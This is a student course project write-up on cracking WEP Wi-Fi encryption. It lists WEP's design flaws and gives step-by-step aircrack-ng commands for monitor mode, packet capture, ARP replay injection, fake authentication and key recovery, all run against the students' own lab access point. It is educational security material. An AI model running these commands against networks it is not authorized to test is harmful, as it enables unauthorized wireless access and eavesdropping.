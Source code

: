 ![logo uit](https://github.com/Huy3nMy/Cracking_WEP/tree/master/image/uit-logo.png)

# Project : Cracking WEP

Student 1: **17520771** – Lê Thị Huyền My

Student 2: **17521104** – Lê Thị Huyền Thư

Class: NT330.K21.**ANTN**

Lecturer: Lê Kim Hùng

Courses: Wireless Security

### [I.Introduce](#I.%20Introduce)

1. ### [Wired Equivalent Privacy](#1.%20Wired%20Equivalent%20Privacy%20(WEP))

2. ### [WEP Issues](#2.%20WEP%20Issues)

### [II.Hardware](#II.%20Hardware)

### [III.Cracking WEP](#III.%20Cracking%20WEP)

1. ### [Aircrack-ng](#1.%20Aircrack-ng)

    - [Step 1: Set up wifi modem (low password)](#Step%201:%20Set%20up%20wifi%20modem%20(low%20password))

    - [Step 2: Run monitor mode](#Step%202:%20Run%20monitor%20mode)

    - [Step 3: Capture wireless packet](#Step%203:%20Capture%20wireless%20packet)

    - [Step 4: Cracking WEP](#Step%204:%20Cracking%20WEP)

    - [Step 5: Set up wifi modem (advance password)](#Step%205:%20Set%20up%20wifi%20modem%20(advance%20password))

# I. Introduce

## 1. Wired Equivalent Privacy (WEP)

- WEP is an IEEE 802.11 wireless protocol which provides security algorithms for data confidentiality during wireless transmissions
- WEP uses 24-bit initalization vector (IV) to form stream cipher RC4 for confidentiality and the CRC-32 checksum for intergrity of wireless transmission.

## 2. WEP Issues

- The IV is a 24-bit field is too small and is sent in the cleartext portion of a message
- Identical key streams are produced with the reuse of the same IP for data protection, as the IV is short key streams are repeated within short time
- Lack of centralized key management makes it difficult to change the WEP keys with any regularity
- When there is IV collision, it becomes possible to reconstruct the RC4 keystream based in the IV and the decrypted payload of the packet
- IV is a part of the RC4 encryption key, leads to a analytical attack that recovers the key after intercepting and analyzing a relatively small amount of traffic
- Use of RC4 was designed to be a one-time cipher and not intended for multiples message use
- No defined method for encryption key distribution
- Wirless adapters from the same vendor may all generate the same IV sequence. This enables attackers to determine the key stream and decrypt the ciphertext
- Associate and disassociate messages are not authenticated
- WEP does not provide cryptographic integrity protection. By capturing two packets an attacker can flip a bit in the encrypted stream and modify the checksum so that the paket is accepted
- WEP is based on a password, prone to password cracking attacks
- An attacker can construct a decryption table of the reconstructed key stream and can use it to decrypt the WEP packets in real-time

# II. Hardware

- OS: Kali Linux 2020.1b amb64 in VMware Workstation 15
- AP: Tp-link TL-WN722N (installed drive Rtl8188eus)
- Core: 4 core
- RAM: 2GB
- SCSI: 80GB

# III. Cracking WEP

## 1. Aircrack-ng

### Step 1: Set up wifi modem (low password)

SSID: LETHIHUYEN \*; 128-bit key; low password: 1234567890123

![set up AP with low password](image\set-up-AP-low-pass.png)

### Step 2: Run monitor mode

> #airmon-ng start wlan0

Use the *iwconfig* command to check

![start mode monitor](image\start-mode-monitor.png)

### Step 3: Capture wireless packet

> #airodump-ng wlan0

Airodump-ng provides basic information cables such as: BSSID, beacons, data, channel, maximu speed, encryption algorithm, cipher detected, authentication protocol, ESSID

![ariodump-ng collect base information](image\airodump-ng-collect-information.png)

We need lock the wireless card on the same channel as the AP with the following command: # iwconfig wlan0mon channel 1

The basic injection test provides additional valuable information as well

> #aireplay-ng -9 -e LETHIHUYEN\* -a 72:F4:C2:D1:75:08 wlan0
>
>> -9 means injection test
>>
>> -e LETHIHUYEN\* teddy is the network name (SSID)
>>
>> -a 72:F4:C2:D1:75:08 is MAC address of the access point (BSSID)
>>
>> -wlan0 is the interface name

![injection test](image\injection-test.png)

Capture wireless packet:

> #airodump-ng –bssid 72:F4:C2:D1:75:08 -c 1 -w WEPcrack wlan0
>
>> --bssid is MAC address of the access point
>>
>> -c 1 is AP channel
>>
>> -w WEPcrack: export to WEP crack file

![capture packet](image\capture-file-wepcrack.png)

Generate traffic:

> #aireplay-ng -3 -b 72:F4:C2:D1:75:08 -h E0:62:67:49:0D:74 wlan0
>
>> -3 means standard arp request replay
>>
>> -b 72:F4:C2:D1:75:08 is the access point MAC address
>>
>> -h E0:62:67:49:0D:74 is the source MAC address

![generate traffic](image\generate-traffic-1.png)

> #aireplay-ng -1 0 -e LETHIHUYEN\* -a 72:F4:C2:D1:75:08 -h E0:62:67:49:0D:7A wlan0
>
>> -1 means fake authentication
>>
>> 0 reassociation timing in seconds

![generate traffic](image\generate-traffic-2.png)

### Step 4: Cracking WEP

Use the command #aircrack-ng WEPcrack-01.cap to analyze IVs in the file WEPcrack-01.cap. Aircrack-ng can recover the WEP key once enough encrypted packets have been captured.

> Password: 1234567890123

![find low password in WEPcrack](image\find-low-pass.png)

### Step 5: Set up wifi modem (advance password)

Password: LTH\*=.=@uit10

![set up AP with advance passwork](image\set-up-AP-advance-pass.png)

The number of IVs collected is not enough for analysis, there will be a failure message showing the number of IVs needed.

![fail to find password](image\fail-to-get-pass.png)

We got the password

![find advance password](image\find-advance-pass.png)
